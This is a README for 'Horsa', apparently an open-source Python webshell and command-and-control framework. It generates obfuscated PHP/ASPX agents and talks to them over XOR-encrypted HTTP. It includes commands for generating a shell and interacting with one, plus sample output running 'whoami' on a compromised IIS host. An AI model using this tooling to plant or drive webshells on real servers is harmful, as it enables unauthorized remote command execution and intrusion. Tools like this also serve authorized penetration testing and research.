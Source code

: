 
```
-@@@@@@@@@@@%@@@@%#*+==---=-------=--=====================-==========--==-==--====================-=
-@%@@@@@@@@@@@%%%%===-----------+-----:::::::::----++------:::--:::::-+*++=+=*+-==:::::::::::::::::=
-@@@@@@@@@@@@%@@@@@@@+------=-:-::::::::::::::::-+=--:-:----:-:::-::::=##******=+::::::::::::::::::-
=@@@@%@@@@@%%@@@@@@@@@@@:::::-::::::::::::::::::--=-:-:-:-=--:::-+---::+#*#*#*##+::::::::::::::::::-
-**#%@@@@%%#*=@@@@@@@@@@@@--===--------:::::::::::::::::---::::::=::::::-+*#%%%==*:::::::::::::::::-
=*+++%@%@+***++@@@@@@@@@@@@@+++===-------::::::::::::::::::::::::::::-::+*#%%%%#=-:::::::::-:::::::=
-*++***+==+**#*++@@@@@@@@@@@@@%+===------::::::::::::::::::::::::::::---:*+##%**++:::::-=:-:-:::-::-
=###***+++*##*+***#@@@@@@@@@@@@@@==--------::::::::::::::::::::::::::::+=*###%%%%%*+-:=--::-=::::::-
=%%%%%%######***###*@@@@@@@@%@@@@@@--------:::::::::::::::::::::::::::::=****+*#**+*+===-::-:-----=-
=@@%#%%%%%%####***+**+@@@@@@@@@@@@@@@=----:::::::::::::::::::::::::::::-+*+=+++++++++===---:-::-----
=%%%%##%#%#####*******+@@@@@@@@@@@@@@@@%-::::::::::::::::::::::::::::::-+++===*+=+*++**+=--:::::::--
=%%###*###***##**++++++==@@@@@@@@@%@@@@@@@:::::::::::::::::::::::::::::::---+==-----=---::::::::::--
=####*********+++++=======-@@@@@@@@@@@@@@@@@::::::::::::::::::::::::::::::-::+-====-=::::::---:::::-
=####*******++++=========---@@@@@@@@@@@@@@@@@@=:::::::::::::::::::::::::::::::::--+--:---:::---::::-
=#####*****++===---=---------:@@@@@@@@@@@@@@@@@@=:::::::::::::::::::::::::::::::::::--::---:--::-::-
=#########**+=+=---=----:::::::@@@@@@@@@@@@@@@@@@@:::::::::::::::::-:=*::::::::::::::::::-==-::::::-
=##########*++*+++++=---:--::--:@@@@@@@@@@@@@@@@@@@=-::::::::#@@@@@@@@@@@:::::::::::::-:---::::::::-
=*##+#%####@@@@@@*###*=+++=-------@@@@@@@@@@@@@@@@@@@=@@@@@@@@@@@@@@@@@@@@::::::::::-:-------::::::-
=*##########%@@@@@@+**+@%++=--:::::-@@@@@@@@@@@@@@@@@@@@@@@@%%@@@@@@@@@@@@@:::::::::===+==-:::-::::-
=#**##########*@@@@@@@@@@+=-::::::::-#@@@@@@@@@@@@@%%%@@@@@@@@@@@@@@@@@@:::::::::::--**++*+-:::::::-
=*****######*##**@@@@@@%@---::::*@@@@@@@@@@@%%%%%%%%%%%@@@@@@@@@@++@::::::::::::::::-+*####*=--::::-
=****#####********+@@@@@@#%@@@@@##@@#@@@@@@@@%%%%%%@@@@@@@@:::::::#:::::::::-::::----++**##*+---:::-
=++***#******+=---@@@@@@@@@@@@##%##%%@@@@@@@@@@@@@@@@@@@@@@@:::::::::::::::-=:-:==----=-=*#***---::-
==+********+++--:@@@@@@@%%%@@@@@@%%%%%@#:::::@@@@@@@@@@@@@@@@:::::::::::::::----+++------=+****+===-
==++******+++---:-::-:::::@@@@@@:::::::::::::::@@@@@@@@@@@@@@*::::::::::::::::=+++-==----:-=++**+==-
==+++*++++==+=--------------:==-::::::::::::::::#@@@@@@@@@@@@@::::::--:::::-::---=--===----:-==+++=-
=-=++=+**+++=-=-=------------::::::::::::::::::::::@@%@@@@@@@@@:::::::::::::::::------=+=-::::--==--
=-==+++++++==========-=----::::-:::::::::::::----:::::#@@@@@%@@@:--:::::::::::::::---------::::::::-
=-===++++++=++++=======--=--------::::::::::--=-::::::::+%@@%%@@#:::--:::::::::::::::------::::::::-
=---====++++++++++=--=====--=------:::::::::::--:::::::::::%@@@@@:::---:::::::-:::::::-----::-:::::-
=-----===++++++*++++=====--=-==----:::::-:::--:::::-:::::::::::::::::::---:::::::::::-------:::::::-
=---------=+++++++++++=====--------------:::::::::::::::::::::::::::::::::::--:--:------:---:::::::-
=-----------================--=--=------:-:::::::::::::::::::::::::::::::::----------::::::-:::::::-
=--------:-------------==-==------==--::::::::::::::::::::::::::::::::::::::::-:------:::::::::::::-
=-------:::::-----------------------=---:::::::::::::::::::::::::::::::::::::::::----:-:::::::---::-
=---------::::::::------------------------:::::::::::::::::::::::::::::::::::::::::-::::::::-::-----
=----------:::::::------:--:--:---::---------::::::::::::::::::::::::::::::::::::::::::::::::::-----
=:------:-------:::-:::::::::::-::::::-------::::::::::::::::::::::::::::::::::::::::::::::::::::::-
=::-------------:::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::-:--:--
==============================================--=-=----------------:::::::::::::::::::::::::-:-:-=--
```

The Airspeed Horsa was a British military glider used during World War II. It was designed by the British manufacturer Airspeed Limited in response to a requirement from the British military for a large transport glider that could carry troops in support of airborne operations

Despite being a large and cumbersome aircraft, was well-liked by the troops who used it, especially during the Normandy landings in June 1944, where it played a crucial role.

## [+] Overview

Horsa is a **webshell framework and command-control (C2)** made in #Python. The project is built around two core functionalities. Alternatively, the Python's wrapper can generate webshells in #ASP.NET or #PHP on fly or interact with agents deployed on target.

The content of the HTTP(S) communications between the wraper and a deployed webshell are #XOR encrypted and base64-encoded. 

>[!TIPS]
> Note the user-agent (UA) and the XOR key can be configured through a custom command-line interface (CLI). 

The Horsa webshell's have **working but limited capabilities**, such as:
- **command execution** through dangerous native functions (PHP) or cmd.exe built-in binary (ASPX)
- **file upload**
- *few PHP functions and download capabilities may be added in the future (maybe not)*

The PHP template used to generate new agent is **lightly obfuscated**. The ASP.NET may soon benefit from a similar treatment.

The whole project is **object oriented** and structured as follow:
- `main.py`: Python's wrapper entry point
- `core/session.py`: this class is related to the core functionalities of Horsa (generate, interact)
- `core/handler.py`: the handler class builds command understandable for Horsa's agents
- `core/request.py`: this class handles the communication between the wrapper and the agents
- `core/config.py`: parameters configurable to customize the project
- `output/`: generated webshells are written here
- `implant/`: webshell templates can be found here (ASP.NET and PHP)

## [+] Recommended setup

After`git clone` the project, you should a create a clean Python's virtual environment and install the requirements using #pip tool:
```bash
cd horsa
python -m virtualenv horsa-venv
source horsa-venv/bin/activate/
pip3 install -r requirements
```
## [+] Usage

The Python wrapper is user-friendly. To generate an ASP.NET or PHP webshell, use the following command:

```shell
# proxychains -q rlwrap python3 main.py --generate --key mypassword --lang aspx --url http://10.0.4.195/test.aspx

██   ██  ██████  ██████  ███████  █████  
██   ██ ██    ██ ██   ██ ██      ██   ██ 
███████ ██    ██ ██████  ███████ ███████ 
██   ██ ██    ██ ██   ██      ██ ██   ██ 
██   ██  ██████  ██   ██ ███████ ██   ██ 
+ php/aspx webshell command & control +

[*] Initializing Horsa
[*] Generating an Horsa webshell
+ filename: test.aspx
+ language: aspx
+ auth-key: mypassword
[+] Horsa webshell in aspx available at output/test.aspx
[+] You may deploy this webshell then run Horsa on --interact mode
[+] Exiting now!
```

Remember, you can get help to use the CLI by typing the following command in a shell:

```bash
python3 main.py --help
```

To interact with a deployed agents, use the following commands:

```bash
# proxychains -q rlwrap python3 main.py --interact --key mypassword --lang aspx --url http://10.0.4.195/test.aspx

██   ██  ██████  ██████  ███████  █████  
██   ██ ██    ██ ██   ██ ██      ██   ██ 
███████ ██    ██ ██████  ███████ ███████ 
██   ██ ██    ██ ██   ██      ██ ██   ██ 
██   ██  ██████  ██   ██ ███████ ██   ██ 
+ php/aspx webshell command & control +

[*] Initializing Horsa
[+] Horsa webshell found on target
[*] Use :help to list built-in commands
+ target: http://10.0.4.195/test.aspx
+ user-agent: hora-ws
+ language: aspx
+ auth-key: mypassword
DefaultAppPool@TESTAPP1: C:/inetpub/wwwroot/]$ :shell whoami
iis apppool\defaultapppool
```

## [+] Credits
A special thanks goes to :
- **[weevely3](https://github.com/epinna/weevely3)** is the mother-of-all the webshell framework projects. You know what I mean, and if you not, just try this piece of masterwork.
- **[SharPyShell](https://github.com/antonioCoco/SharPyShell)** was vital to better understans how to use ASP.NET to get a working .aspx agent. His projet is far more achieved than I could ever imagined regarding Horsa. Kudo to @antonioCoco
